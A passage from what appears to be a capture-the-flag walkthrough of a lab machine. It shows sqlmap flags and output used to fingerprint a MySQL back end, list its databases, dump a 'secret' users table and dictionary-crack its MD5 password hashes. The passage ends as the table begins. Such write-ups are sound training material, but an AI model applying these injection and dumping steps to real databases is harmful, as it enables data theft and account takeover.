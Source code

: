 ```
[20:22:01] [INFO] testing MySQL
[20:22:02] [INFO] confirming MySQL
[20:22:02] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.0
[20:22:04] [INFO] fetched data logged to text files under '/home/oxdf/.sqlmap/output/10.10.10.71'

```

I’ll add `--dbs` to list the databases:

```

[20:36:27] [INFO] fetching database names
available databases [7]:
[*] complain
[*] information_schema
[*] joomla
[*] mysql
[*] performance_schema
[*] secret
[*] sys

```

`secret` is interesting. I’ll start there.

Replace `--dbs` with `-D secret --tables`:

```

[20:37:07] [INFO] fetching tables for database: 'secret'
Database: secret
[1 table]
+-------+
| users |
+-------+

```

Now I’ll dump that table with `-D secret -T users --dump`:

```

[20:37:30] [INFO] fetching columns for table 'users' in database 'secret'
[20:37:30] [INFO] fetching entries for table 'users' in database 'secret'
[20:37:31] [INFO] recognized possible password hashes in column '`Password`'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[20:37:31] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[20:37:31] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[20:37:31] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[20:37:31] [INFO] starting 4 processes 
[20:37:32] [INFO] cracked password 'barcelona' for user 'Malek'
[20:37:34] [INFO] cracked password 'popcorn' for user 'Dumah'
[20:37:34] [INFO] cracked password 'pussycatdolls' for user 'Ariel'
[20:37:34] [INFO] cracked password 'santiago' for user 'Moebius'
Database: secret
Table: users
[10 entries]
+----------+--------------------------------------------------+
```